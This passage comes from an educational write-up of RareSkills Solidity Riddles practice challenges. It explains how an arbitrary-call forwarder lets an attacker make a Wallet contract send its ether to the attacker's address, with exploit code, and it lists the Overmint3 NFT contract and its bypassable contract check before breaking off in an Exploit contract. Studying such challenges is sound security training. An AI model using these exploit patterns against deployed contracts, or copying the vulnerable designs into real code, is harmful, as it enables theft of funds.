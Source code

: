 ```
    }
}
```

### Exploit
Cracking this exploit requires knowing how `.call` and `abi.encodeWithSignature` works. But simply, `call` is a low level function used to interact with another contract; and `abi.encodeWithSignature` is used to encode function calls including the function signature and its arguments. The latter returns a bytes array representing an encoded function call that can be used to make a call to another contract's function with the encoded arguments.

Since `sendEther` in `Wallet` can only be called by the `Forwarder`, and `functionCall` in `Forwarder` takes in an arbitrary `data` input which is passed to `call`, we can easily get the `Wallet` contract to send its balance to the attackers wallet by passing in the following as `data``:
```
    bytes memory data = abi.encodeWithSignature("sendEther(address,uint256)", attackerWallet, 1 ether);
    forwarderContract.functionCall(address(walletContract), data);
```
The first line constructs the encoded `sendEther` function call with the attacker's wallet as the destination and 1 ether as the amount to send. When this is passed to `functionCall`, the `Forwarder` contract sends a call to `walletContract` to execute the encoded function call. Thus transfering out the balance to the attacker.

## RareSkills Solidity Riddles: Overmint3
Link: https://github.com/RareSkills/solidity-riddles/blob/main/contracts/Overmint3.sol

### Contracts
- `src/Week10-11/Overmint3.sol`
```
contract Overmint3 is ERC721 {
    using Address for address;

    mapping(address => uint256) public amountMinted;
    uint256 public totalSupply;

    constructor() ERC721("Overmint3", "AT") {}

    function mint() external {
        require(!isContract(msg.sender), "no contracts");
        require(amountMinted[msg.sender] < 1, "only 1 NFT");
        totalSupply++;
        _safeMint(msg.sender, totalSupply);
        amountMinted[msg.sender]++;
    }

    //`isContract()` has been removed from OpenZeppelin's `Address` library in V5
    function isContract(address _addr) public view returns (bool) {
        uint256 size;
        assembly {
            size := extcodesize(_addr)
        }
        return size > 0;
    }
}

contract Exploit {
    Overmint3 public overmint3Contract;
    address public attackerWallet;

    constructor(Overmint3 _overmint3Contract, address _attackerWallet) {
        overmint3Contract = _overmint3Contract;
        attackerWallet = _attackerWallet;
```